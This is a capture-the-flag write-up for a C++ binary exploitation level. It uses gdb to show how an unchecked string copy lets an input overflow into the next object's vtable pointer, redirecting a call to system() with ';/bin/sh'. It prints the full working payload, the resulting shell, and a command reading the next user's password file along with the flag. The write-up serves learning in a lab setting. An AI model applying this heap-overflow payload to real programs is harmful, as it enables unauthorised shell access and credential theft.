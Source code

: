 ## C++ is bad too (level9)

This level's [binary](source.cpp) is written in C++. It contains an _N_ class
which stores a 100-bytes long character buffer and an int. The character buffer
contents are set with the _setAnnotation_ method. So this binary takes at least
one argument (or it exits) and creates two instances of the class with C++'s
"new" keyword. This basically performs an allocation and sets the int member of
the struct to the given value. There is also two operator functions, one for '+'
and an other for '-', which simply adds or substracts the int member values and
returns the result as an int.

So the 2 N instances, let's call them _a_ and _b_, are initialized with 5 and 6
respectively. Then the _setAnnotation_ method is called on _a_ and it copies the
argument provided by the user directly to the member buffer without checking its
length which makes this susceptible to a buffer overflow attack.

Lets see the memory layout after all this:

```shell
# run gdb on the binary
gdb ./level9
# disassemble main to see where to break
(gdb) disass main
...
   0x08048610 <+28>:    movl   $0x6c,(%esp)
   0x08048617 <+35>:    call   0x8048530 <_Znwj@plt> # a is allocated
   0x0804861c <+40>:    mov    %eax,%ebx
   0x0804861e <+42>:    movl   $0x5,0x4(%esp)
   0x08048626 <+50>:    mov    %ebx,(%esp)
   0x08048629 <+53>:    call   0x80486f6 <_ZN1NC2Ei> # a is initialized to 5
...
   0x08048632 <+62>:    movl   $0x6c,(%esp)
   0x08048639 <+69>:    call   0x8048530 <_Znwj@plt> # b is allocated
   0x0804863e <+74>:    mov    %eax,%ebx
   0x08048640 <+76>:    movl   $0x6,0x4(%esp)
   0x08048648 <+84>:    mov    %ebx,(%esp)
   0x0804864b <+87>:    call   0x80486f6 <_ZN1NC2Ei> # b is initialized to 6
...
   0x08048674 <+128>:   mov    %eax,(%esp)
   0x08048677 <+131>:   call   0x804870e <_ZN1N13setAnnotationEPc>
   0x0804867c <+136>:   mov    0x10(%esp),%eax
...
# break after a's allocation to get its address
(gdb) b *0x0804861c
Breakpoint 1 at 0x0804861c
# break after b's allocation for the same reason
(gdb) b *0x0804863e
Breakpoint 2 at 0x0804863e
# break after the setAnnotation call
(gdb) b *0x0804867c
Breakpoint 3 at 0x804867c
# start the program with an argument
(gdb) run "aaaabbbbccccddddeeeefghijklm"
Starting program: /home/user/level9/level9 "aaaabbbbccccddddeeeefghijklm"

Breakpoint 1, 0x0804861c in main ()
# see a's address
(gdb) x $eax
0x804a008:      0x00000000
# go to second breakpoint
(gdb) c
Continuing.

Breakpoint 2, 0x0804863e in main ()
# see b's address
(gdb) x $eax
0x804a078:      0x00000000
# go to last breakpoint
(gdb) c
Continuing.

Breakpoint 3, 0x0804867c in main ()
```

Now from there we can see that b is located 112 bytes after _a_. This makes
sense since the allocation function in both cases takes a parameter set to
"0x6c", 108 in decimal, which we can guess is the size of the class instance.
From these informations we can see the memory layout of _a_ and _b_:

```
# print 224 bytes of memory starting from a's address
(gdb) x/56wx 0x804a008
0x804a008:      0x08048848      0x61616161      0x62626262      0x63636363
0x804a018:      0x64646464      0x65656565      0x69686766      0x6d6c6b6a
0x804a028:      0x00000000      0x00000000      0x00000000      0x00000000
0x804a038:      0x00000000      0x00000000      0x00000000      0x00000000
0x804a048:      0x00000000      0x00000000      0x00000000      0x00000000
0x804a058:      0x00000000      0x00000000      0x00000000      0x00000000
0x804a068:      0x00000000      0x00000000      0x00000005      0x00000071
0x804a078:      0x08048848      0x00000000      0x00000000      0x00000000
0x804a088:      0x00000000      0x00000000      0x00000000      0x00000000
0x804a098:      0x00000000      0x00000000      0x00000000      0x00000000
0x804a0a8:      0x00000000      0x00000000      0x00000000      0x00000000
0x804a0b8:      0x00000000      0x00000000      0x00000000      0x00000000
0x804a0c8:      0x00000000      0x00000000      0x00000000      0x00000000
0x804a0d8:      0x00000000      0x00000000      0x00000006      0x00020f21
```

We can see the character buffer from the second word on the first line up to the
end of the second line (from 0x804a00c to 0x804a028), and that it is filled with
our input as expected. At the end of the 7th line there is a word containing the
value 5 (at 0x804a070) which was _a_'s initialization value. _b_ is layed out
simirlarly but with an empty character buffer and its value set to 6 on the last
line (at 0x804a0e0).

Also, both _a_ and _b_ start with the same value 0x08048848. It is the first
word and we can see it again 7 lines down at b's address (0x804a078). If we
check it out, we can see that it points to the address of a function:

```shell
(gdb) x 0x08048848
0x8048848 <_ZTV1N+8>:   0x0804873a
(gdb) x 0x0804873a
0x804873a <_ZN1NplERS_>:        0x8be58955
(gdb) disass _ZN1NplERS_
Dump of assembler code for function _ZN1NplERS_:
   0x0804873a <+0>:     push   %ebp
   0x0804873b <+1>:     mov    %esp,%ebp
   0x0804873d <+3>:     mov    0x8(%ebp),%eax
   0x08048740 <+6>:     mov    0x68(%eax),%edx
   0x08048743 <+9>:     mov    0xc(%ebp),%eax
   0x08048746 <+12>:    mov    0x68(%eax),%eax
   0x08048749 <+15>:    add    %edx,%eax
   0x0804874b <+17>:    pop    %ebp
   0x0804874c <+18>:    ret
End of assembler dump.
```

This really short function takes two parameters, fetches a value at an offset of
0x68 (104) bytes and adds them. This precisely where the numeric value of the
_N_ class is located. So this is the '+' operator for the class. At the next
address, 4 bytes after we have the '-' operator:

```shell
(gdb) x 0x804874e
0x804874e <_ZN1NmiERS_>:        0x8be58955
```

If we overwrite this value by providing the right payload to the binary, the
program segfaults because _b_'s '+' operator is used at the end of the program.

```shell
./level9 "$(python -c 'print "a" * 108 + "bbbb"')"
Segmentation fault (core dumped)
```

So now the exploit. Since the operator is loaded through a pointer to a function
address situated at the start of _b_, what we need to do is overwrite this value
with a valid address whose value is the address of the system function. _b_'s
address is not only the where the operator function is located but it is also
the first argument of the operator function (this is what _this_ is, a pointer
to the instance of the class calling the method). So it will be the argument for
system too. Obviously the raw bytes of the address pointing to system are not a
valid shell command, so we need to add a separator and end the string with the
program we want to launch.

| system (4) | padding (104) | _b_'s address (4) | end the command string (9) |
|------------|---------------|-------------------|----------------------------|
| 0xb7d86060 | 0x909090...   | 0x0804a00c        | ";/bin/sh"                 |

```shell
# run the exploit
./level9 $(python -c 'print "\xb7\xd8\x60\x60"[::-1] + "\x90" * 104 + "\x08\x04\xa0\x0c"[::-1] + ";/bin/sh"')
# enjoy
whoami
bonus0
# your flag
cat /home/user/bonus0/.pass
f3f0004b6f364cb5a4147e9ef827fa922a4861408845c26b6971ad770d906728
```
